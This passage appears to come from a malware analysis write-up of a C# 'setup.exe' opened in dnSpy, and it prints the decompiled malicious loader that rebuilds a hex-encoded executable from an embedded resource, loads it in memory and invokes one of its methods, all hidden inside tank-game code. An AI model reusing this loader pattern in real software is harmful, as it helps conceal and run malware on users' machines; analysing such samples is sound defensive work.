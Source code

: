 `setup.exe` is written in C# using the .NET framework, and on opening it in dnSpy, I had a few initial observations.  

Firstly, there was no attempt at obfuscation whatsoever. Secondly, a majority of the code seemed to be benign and referencing a tank battle game, probably ripped from another legitimate project to assist avoiding detection. However, there were several sections which were obviously malicious. 

Following the execution flow, I'll outline my findings starting with the constructor of the `Form1` class.

```C#
Form1.Seksy = new string[]
{
	"54784365",
	"737775",
	"TankBattle"
};
```

This in of itself is not malicious, but is used later on. Execution then moves to `Form1.InitializeComponent()`, where the remainder of the malicious code is added at random into the method. Most of the method is benign, so I will share only the malicious components.

```C#
ResourceManager resourceManager = new ResourceManager(typeof(Form2));
string text = (string)resourceManager.GetObject("String1");
text = text.Replace("~", "00-");
string[] array = text.Split(new char[]
{
	'-'
});
byte[] array2 = new byte[array.Length];
for (int i = 0; i < array.Length; i++)
{
	array2[i] = (byte)Convert.ToUInt32(array[i], 16);
}

Assembly assembly = Assembly.Load(array2);
string[] seksy = Form1.Seksy;
MethodInfo methodInfo = assembly.GetExportedTypes()[1].GetMethods()[1];
MethodBase methodBase = methodInfo;
object obj = 0;
object[] parameters = seksy;
methodBase.Invoke(obj, parameters);
```

The first several lines extract a PE file from a resource embedded in `setup.exe`. The resource is called `String1` and is in the format `4D-5A-90-~03-~~~04-~~~FF-FF-~~B8-~~~~~~~40-~~~~~~~~~~~~~80-~~~0E-1F-`. 

The tildes are replaced with null bytes, and the string is transformed into a byte array by splitting on the dash characters. The array is then passed as an argument to `Assembly.Load()`.  

Using the dnSpy debugger, I was able to see the "methodInfo" variable represents `Melvin.White.Dodge()`, which must be a method in the newly created assembly. This method is invoked by passing the `Seksy` array as a parameter.  
